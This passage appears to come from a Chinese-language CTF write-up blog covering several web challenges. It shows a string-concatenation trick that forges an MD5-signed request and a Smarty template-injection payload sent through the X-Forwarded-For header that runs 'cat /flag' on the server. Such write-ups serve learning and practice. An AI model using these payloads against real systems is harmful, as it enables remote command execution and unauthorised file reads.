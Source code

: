 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301220941.png)

注意 message 的拼接, 因为 flag.txt 已经在 param 中传递了, 我们只需要在 action 中构造 flag.txt 后的部分即可

后来看了下 wp 发现了一种更简单的方法, 单纯利用字符串拼接的特性

首先传参 `param=flag.txtread`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301229926.png)

然后访问 /De1ta, action 改为 `readscan`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301230547.png)

简单说一下思路

```python
md5(secert_key + 'flag.txtread' + 'scan') # /geneSign

md5(secert_key + 'flag.txt' + 'readscan') # /De1ta
```

这种方法的利用方式跟 moectf 的一道题很类似, 都是脑筋急转弯 (?)

## [CISCN2019 华东南赛区]Web11

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301350351.png)

最下面提示是 smarty 模板, 右上角有个 current ip

尝试通过 xff 头更改

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301351592.png)

输入 `{$smarty.version}`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301352902.png)

存在 ssti

参考文章 [https://www.anquanke.com/post/id/272393](https://www.anquanke.com/post/id/272393)

利用 if 标签执行 php 代码

```
{if system('cat /flag')}{/if}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208301353166.png)

## [BSidesCF 2019]Futurella

右键查看源代码得到 flag

## [SUCTF 2019]Pythonginx
